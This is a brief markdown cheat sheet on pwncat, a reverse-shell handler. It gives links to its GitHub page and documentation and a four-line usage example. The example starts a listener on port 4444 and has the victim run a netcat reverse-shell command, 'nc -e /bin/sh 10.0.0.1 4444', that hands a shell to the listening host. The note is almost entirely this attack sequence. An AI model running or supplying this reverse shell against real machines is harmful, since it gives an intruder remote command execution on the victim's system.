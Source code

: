 # pwncat

https://github.com/calebstewart/pwncat.

https://pwncat.readthedocs.io/en/latest/usage.html

```
L >pwncat -l 4444
V >nc -e /bin/sh 10.0.0.1 4444
L >cntrl+d 
L >run help
```
